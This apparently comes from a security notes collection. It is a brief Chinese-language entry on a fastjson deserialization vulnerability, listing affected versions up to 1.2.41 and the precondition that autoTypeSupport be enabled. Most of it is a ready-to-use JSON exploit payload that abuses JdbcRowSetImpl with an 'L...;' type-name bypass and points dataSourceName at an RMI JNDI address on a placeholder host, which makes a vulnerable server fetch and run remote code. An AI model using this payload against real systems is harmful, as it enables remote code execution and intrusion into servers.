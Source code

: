 影响版本：  
- fastjson<=1.2.41 

前提：
autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

exp：
```
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://x.x.x.x:1098/jndi", "autoCommit":true}
```


